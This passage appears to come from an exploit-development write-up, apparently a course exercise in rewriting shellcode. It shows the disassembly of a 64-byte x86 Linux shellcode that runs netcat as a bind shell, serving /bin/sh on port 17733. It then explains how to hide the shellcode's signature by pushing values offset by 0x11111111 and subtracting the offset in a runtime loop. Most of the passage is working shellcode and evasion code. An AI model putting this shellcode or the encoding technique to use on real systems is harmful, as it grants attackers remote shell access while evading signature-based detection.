 ### The original shellcode
The starting shellcode is pretty straight forward and pushes the exactly text for the command onto the stack for execve to execute. The original size of this shellcode is 64 bytes (150% would be 96 bytes).
```nasm
08048080 <_start>:
 8048080:	31 c0                	xor    eax,eax
 8048082:	31 d2                	xor    edx,edx
 8048084:	68 33 33 37 37       	push   0x37373333 ; "7733"
 8048089:	68 2d 76 70 31       	push   0x3170762d ; "1pv-"
 804808e:	89 e2                	mov    edx,esp
 8048090:	50                   	push   eax
 8048091:	68 6e 2f 73 68       	push   0x68732f6e ; "hs/n"
 8048096:	68 65 2f 62 69       	push   0x69622f65 ; "ib/e"
 804809b:	68 2d 6c 76 76       	push   0x76766c2d ; "vvl-"
 80480a0:	89 e1                	mov    ecx,esp
 80480a2:	50                   	push   eax
 80480a3:	68 2f 2f 6e 63       	push   0x636e2f2f ; "cn//"
 80480a8:	68 2f 2f 2f 2f       	push   0x2f2f2f2f ; "////"
 80480ad:	68 2f 62 69 6e       	push   0x6e69622f ; "nib/"
 80480b2:	89 e3                	mov    ebx,esp
 80480b4:	50                   	push   eax
 80480b5:	52                   	push   edx
 80480b6:	51                   	push   ecx
 80480b7:	53                   	push   ebx
 80480b8:	31 d2                	xor    edx,edx
 80480ba:	89 e1                	mov    ecx,esp
 80480bc:	b0 0b                	mov    al,0xb
 80480be:	cd 80                	int    0x80
```

### The changes
To change the instructions around a bit so the opcodes become quite different from the original I've changed the hex that is being pushed to the stack by first calculating offline what ```add dword [esp],0x11111111``` to each dword would be.  The resulting dwords are what are placed in the assembly and pushed to the stack.  Additionally, the null bytes between each string are now 0x11111111.

Once this is in place I let the stack build up with the mangled values right up to the point of where the execve would be called.  The stack now looks like the following:
```
gdb$ x/14wx $esp
0xbffff0c8:	0xbffff0d8	0xbffff0e8	0xbffff0f8	0x11111111
0xbffff0d8:	0x7f7a7340	0x40404040	0x747f4040	0x11111111
0xbffff0e8:	0x87877d3e	0x7a734076	0x7984407f	0x11111111
0xbffff0f8:	0x4281873e	0x48484444
```

The first three dwords are pointers to the stack where the strings are located so we don't want to touch those. However, the 4th to 14th consecutive dword in the stack need to have ```sub dword [esp],0x11111111``` applied to it.

I use the following loop to accomplish this:
```
sub_loop:
    sub dword [esp+8+ecx*4],0x11111111
    dec cx
    jnz sub_loop
```
